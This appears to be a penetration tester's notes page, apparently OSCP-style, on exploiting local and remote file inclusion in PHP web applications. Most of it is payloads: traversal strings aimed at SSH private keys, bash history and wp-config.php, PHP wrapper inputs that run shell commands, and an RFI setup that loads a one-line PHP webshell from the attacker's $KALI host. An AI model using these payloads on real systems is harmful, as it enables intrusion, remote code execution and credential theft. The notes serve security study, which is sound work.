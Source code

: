 Operators Handbook pg 321
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html
#### LFI
Also try [[5_Contaminating Log Files]]
#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```
```bash - kali
python lfisuite.py
```
Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```
Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```
#### PHP Wrappers
```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```
```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
[[1._rlwrap]]
[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP Webshells#PHP]]
---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```
```
/etc/apache2/sites-enabled/000-default.conf
```
Can you download the source code?  Then just find / grep for password file locations!
==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```
```
/home/user/.ssh/id_rsa
```
```
/home/user/.ssh/id_rsa.pub
```
```
/home/user/.bash_history
```
```
/var/www/html/wp-config.php
```
#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```
#### Wordpress config.php
Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```
```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```
#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```
![[Port 25 - SMTP#Log Poisoning]]
#### RFI
==Remember for RFI, the file has to be txt!==
WWOLF:
![[0._PHP Webshells#wwolf]]
Save as webshell.txt
```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```
evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
![[Python#Server]]
```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```
#### Terminators
Null byte:
```
%00
```
```
?
```
Just by adding a question mark on this example, we got our webshell to work.
